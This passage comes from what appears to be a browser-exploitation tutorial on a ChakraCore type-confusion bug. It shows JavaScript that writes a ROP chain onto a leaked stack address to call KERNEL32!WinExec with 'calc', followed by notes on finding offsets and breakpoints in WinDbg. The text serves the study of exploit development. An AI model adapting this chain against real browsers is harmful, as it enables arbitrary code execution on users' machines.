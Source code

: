 ```javascript
    write64(stackLeak[0]+counter, stackLeak[1], 0x636c6163, 0x00000000);            // calc
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x3e6c6, chakraHigh);      // 0x18003e6c6: pop rcx ; ret
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x1c77000, chakraHigh);    // Empty address in .data of chakracore.dll
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0xd7ff7, chakraHigh);      // 0x1800d7ff7: mov qword [rcx], rax ; ret
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x40802, chakraHigh);      // 0x1800d7ff7: pop rdx ; ret
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x00000000, 0x00000000);            // 0
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x3e876, chakraHigh);      // 0x18003e876: pop rax ; ret
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], kernel32Lo+0x5e330, kernel32High);  // KERNEL32!WinExec address
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x7be3e, chakraHigh);      // 0x18003e876: jmp rax
    counter+=0x8;

    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
    counter+=0x8;
}

main();
````

Before execution, we can find the address of `kernel32!WinExec` by computing the offset in WinDbg.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion107.png" alt="">

Let's again run our exploit in WinDbg and set a breakpoint on the `pop rdx` ROP gadget (located at `chakracore_base + 0x40802`)

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion108.png" alt="">
